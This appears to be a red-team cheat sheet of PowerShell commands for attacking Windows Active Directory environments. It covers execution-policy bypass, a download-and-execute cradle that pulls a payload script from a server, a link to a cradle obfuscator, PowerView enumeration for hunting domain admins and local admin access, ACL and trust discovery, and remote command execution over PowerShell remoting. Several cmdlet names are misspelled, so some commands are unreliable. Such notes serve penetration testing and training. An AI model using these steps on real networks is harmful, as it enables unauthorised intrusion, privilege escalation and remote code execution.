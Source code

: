 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

**All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  
**Get the groups in the current domain**:  
1. Get-NetGroup  
2. Get-NetGroup \*admin\*  

**Get all the members of the Domain Admins group**:  
1. Get-NetGroupMember -GroupName "Domain Admins"  
  
**Get group membership for a user**:  
1. Get-NetGroup -UserName \<user name\>  

**Get computers of the domain**:  
1. Get-NetComputer  
2. Get-NetComputer -FullData  

**Fins all machines on the current domain where the current user has a local admin access**:  
1. Find-LocalAdminAccess -Verbose  
  
**Find all admins on all machines of the domain**:  
1. Invoke-EnumerateLocalAdmin -Verbose  
  
**List sessions on the current computer**:  
1. Get-NetSession -ComputerName \<computer name\>  
  
**Find computers where a omain admin is logged on and current user has access**:  
1. Invoke-UserHunt -CheckAccess  


**Get ACLs**:  
1. Get-ObjecAcl -SamAccountName \<user name\> -ResolveGUIDs  
2. Get-ObjecAcl -ADSprefix 'CN=Administrators,CN=Users'  
3. Invoke-ACLScanner -ResolveGUIDs  
  
**Get a list of all domain trusts for the current domain**:  
1. Get-NetDomainTrust  
2. Get-NetDomainTrust -Domain \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
1. Get-NetForest  
2. Get-NetForest -Forest \<forest name\>  
  
**Get all domains in current forest**:  
1. Get-NetForestDomain  
2. Get-NetForestDomain -Forest \<forest name\>  
  
**Get forest trusts**:  
1. Get-NetForestTrust  
2. Get-NetForestTrust -Forest \<forest name\>  
  
## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter \* -Properties \*  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  

**Get the groups in the current domain**:  
1. Get-ADGroup -Filter * | select Name  
2. Get-ADGroup -Filter {Name like "\*admin\*"} | select Name  
  
**Get all the members of the Domain Admins group**:  
1. Get-ADGroupMember -Identity "Domain Admins" -Recursive  

**Get group membership for a user**:  
1. Get-ADPrincipalGroupMembership -Identity \<user name\>  
  
**Get computers of the domain**:  
1. Get-ADComputer -Filter * | select Name  
2. Get-ADComputer -Filter \* -Prooerties \*  
  
**Get ACLs**:  
1. (Get-Acl 'AD:\CN=Lab,CN=Users,DC=domain,DC=local').Access  

**Get a list of all domain trusts for the current domain**:  
1. Get-ADTrust  
2. Get-ADTrust -Identiy \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
 1. (Get-ADForest).Domains  
 2. Get-ADForest -Identiy \<forest name\>  
  
**Get forest trusts**:  
 1. Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'  

## POWERSHELL REMOTING  
 - To enable PSRemoting user need Admin privileges.  
 - Enabled by default on Server 2012 onwards.  

**One-to-One remoting**:  
 - Create a new PSSession: $session = New-PSSession -ComputerName \<computer name\>  
 - Interact with particular PSSession: a) Enter-PSSession -Session $session b) Enter-PSSession -ComputerName \<computer name\>  

**One-to-Many remoting**:  command and script execution on remote host.
1. Invoke-Command -Scriptblock \{Get-Processes\} -ComputerName (Get-Content \<list of servers\>)  
2. Invoke-Command -FilePath C:\Users\Downloads\script.ps1 -ComputerName \<computer name\>  
  
**Execute stateful commnads**:  
1. Enter-PSSession -Session $session -Scriptblock \{$who = whoami\}  
  - Enter-PSSession -Session $session -Scriptblock \{$who\}  
